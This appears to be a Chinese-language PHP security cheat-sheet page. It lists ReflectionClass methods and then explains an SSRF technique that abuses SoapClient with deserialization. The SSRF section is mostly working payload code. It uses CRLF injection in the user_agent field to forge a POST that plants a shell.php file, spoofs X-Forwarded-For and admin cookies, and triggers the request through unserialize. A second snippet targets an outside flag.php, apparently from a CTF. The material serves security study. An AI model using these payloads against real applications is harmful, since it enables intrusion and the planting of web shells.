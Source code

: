```php
(new ReflectionClass("class?"))->hasConstant(string $name) // 类是否有指定的常量
(new ReflectionClass("class?"))->hasMethod(string $name) // 类是否有指定的方法
(new ReflectionClass("class?"))->implementsInterface(string $interface) // 类是否实现指定的接口
(new ReflectionClass("class?"))->inNamespace() // 类是否在命名空间中
(new ReflectionClass("class?"))->isAbstract() // 类是否是抽象类
(new ReflectionClass("class?"))->isAnonymous() // 类是否是匿名类
(new ReflectionClass("class?"))->isCloneable() // 类是否是可复制的
(new ReflectionClass("class?"))->isFinal() // 类是否声明为 final
(new ReflectionClass("class?"))->isInternal() // 类是否是内部的
(new ReflectionClass("class?"))->isIterable() // 类是否是一个迭代类
(new ReflectionClass("class?"))->isIterateable() // 类是否是可迭代的
(new ReflectionClass("class?"))->isSubclassOf(string $class) // 类是否是指定类的子类
(new ReflectionClass("class?"))->isTrait() // 类是否是 trait
(new ReflectionClass("class?"))->isUserDefined() // 类是否是用户定义的
```

## SSRF: SoapClient::__call
range：PHP 5, PHP 7, PHP 8

SOAP（简单对象访问协议）是连接或Web服务或客户端和Web服务之间的接口。

其采用HTTP作为底层通讯协议，XML作为数据传送的格式，仅限于http/https协议

SOAP消息基本上是从发送端到接收端的单向传输，但它们常常结合起来执行类似于请求 / 应答的模式。

如果想要使用SoapClient类需要在php.ini配置文件里面开启 extension=php_soap.dll 选项


```php
<?php
$target= 'http://127.0.0.1/demo.php';
$post_string= '1=file_put_contents("shell.php", "<?php phpinfo();?>");';
$headers= array(
   'X-Forwarded-For:127.0.0.1',
   'Cookie:admin=1'
   );
$b= new SoapClient(null,array('location'=> $target,'user_agent'=>'wupco^^Content-Type:application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length:'.(string)strlen($post_string).'^^^^'.$post_string,'uri'=>"xxx"));
//因为User-agent是可以控制的，因此可以利用crlf注入http头部发送post请求
$aaa= serialize($b);
$aaa= str_replace('^^','%0d%0a',$aaa);
$aaa= str_replace('&','%26',$aaa);
echo $aaa;

$x= unserialize(urldecode($aaa));//调用__call方法触发网络请求发送
$x->no_func();
```

```php
$target = "http://ekii.eyes.sh/flag.php";
$headers = array(
    'X-Forwarded-For:127.0.0.1',
    "Cookie: PHPSESSID=s8fo8ma30gbttqvgdbb48k6rm4"
);
$adapter = new SoapClient(null, array('uri' => 'aaab', 'location' => $target, 'user_agent' => 'Y1ng^^' . join('^^', $headers)));

$aaa= serialize($adapter);
$aaa= str_replace('^^','%0d%0a',$aaa);
$aaa= str_replace('&','%26',$aaa);

```
